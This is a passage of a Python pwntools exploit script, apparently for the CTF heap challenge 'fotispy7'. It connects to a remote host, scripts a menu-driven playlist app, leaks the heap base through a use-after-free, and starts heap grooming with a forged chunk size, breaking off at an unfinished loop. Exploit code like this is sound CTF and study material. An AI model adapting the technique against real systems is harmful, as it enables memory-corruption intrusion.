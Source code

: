 ```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")

# p = process("./fotispy7")
p = remote("52.59.124.14", 5197)
libc = ELF("./libc.so.6")
p.recvuntil("Please enter a username: ")
p.sendline("rosa")
p.recvuntil("Please enter a password: ")
p.sendline("rosa")

def create_playlist(name, desc):
    p.recvuntil("Choice: ")
    p.sendline("2")
    p.recvuntil("Please enter the name of the playlist: ")
    p.sendline(name)
    p.recvuntil("Please enter a fitting description: ")
    p.sendline(desc)

def dbg():
    p.recvuntil("Choice: ")
    p.sendline("10")

def delete_playlist():
    p.recvuntil("Choice: ")
    p.sendline("5")

def create_song(title, album, artist):
    p.recvuntil("Choice: ")
    p.sendline("6")
    p.recvuntil("Please enter the title of the song: ")
    p.sendline(title)
    p.recvuntil("Please enter the album of the song: ")
    p.sendline(album)
    p.recvuntil("Please enter the artist of the song: ")
    p.sendline(artist)

def delete_song(idx):
    p.recvuntil("Choice: ")
    p.sendline("9")
    p.recvuntil("Please enter the index of the song you want to delete: ")
    p.sendline(str(idx))

def edit_song(idx, choice, content):
    p.recvuntil("Choice: ")
    p.sendline("7")
    p.recvuntil("Please enter the index of the song you want to edit: ")
    p.sendline(str(idx))
    p.recvuntil("[T]itle/a[L]bum/a[R]tist: ")
    p.sendline(choice)
    p.recvuntil("of the song: ")
    p.sendline(content)
create_playlist(b"A"*0x20, b"B"*0x20) #0
delete_playlist()
dbg()
p.recvuntil("[000000] ")
leak = int(p.recvline().strip(), 16)
heap_base = leak * 0x1000
log.info("heap base: " + hex(heap_base))

# chunk b 特殊化
create_song(b"a"*0x20, b"B"*0x20, b"c"*0x50 + p64(0x130))
for i in range(10):
```